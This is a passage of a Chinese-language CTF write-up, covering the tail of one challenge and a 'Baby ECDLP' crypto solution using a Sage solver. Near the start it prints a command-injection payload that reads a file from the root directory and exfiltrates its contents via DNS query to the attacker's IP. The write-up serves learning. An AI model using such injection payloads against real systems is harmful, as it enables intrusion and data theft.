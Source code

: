 `$(cat $(find / -maxdepth 1 -size +0 -type f -printf '%p')) <My IP>`

它的意思是先找到根目錄下 min size 為 0 的檔名，並且用 `cat` 把檔案輸出，最後將輸出結果作為 hostname 發 DNS query 到 `<My IP>`。

![image](https://hackmd.io/_uploads/B1GWoEdu6.png)

以下為解出 $\text{Flag}$ 的照片：

![image](https://hackmd.io/_uploads/H1Zls4OO6.png)

# Baby ECDLP

- $\text{Type}$: $\text{Crypto}$
- $\text{Points}$: $469$
- $\text{Solved Time}$: January 6th, 12:10:50 PM
- $\text{Flag}$: `AIS3{3@SY_INT3geR_fAc7OrIZa71On_AnD_An_iNtRODucit0n_7o_m0V_A7Tacks}`

根據 `a, b` 的矩陣可以得出 `p, q` 的二元三次聯立方程式，直接 sage solver 求解即可：

```python=
# a = (p + 1) * (q + 1) - (p + q) ** 2 - 1
# b = p * q * (p + q - 1)

# Solve p, q
p, q = var("p, q")
ans = solve([(p + 1) * (q + 1) - (p + q) ** 2 - 1 == a, p * q * (p + q - 1) == b], p, q)
```

總共解出 6 組解，不過因為對稱性，實際上只有 3 組解，其中只有一組解二個數字都是正的。
不過我還是寫了一些判斷式去抓出合法的解：

```python=
ans = [
    [
        1291570437571548108602677722191376815944720207670689841965090388326940686642654446945208820370796863647650727896954926930018377575753937822622270407516491,
        -1632612641432289359777032229474739824502070018852182367919181992543886926746743642598380442660715643590514605193264497966141970510558181067769726348913093,
    ],
    # ...
]


for p, q in ans:
    if p < 0 or q < 0:
        continue
    if isPrime(p) and isPrime(q):
        print(p, q)
```

最後用的 `p, q` 是：

```python
p = 1291570437571548108602677722191376815944720207670689841965090388326940686642654446945208820370796863647650727896954926930018377575753937822622270407516491
q = 341042203860741251174354507283363008557349811181492525954091604216946240104089195653171622289918779942863877296309571036123592934804243245147455941396603
```
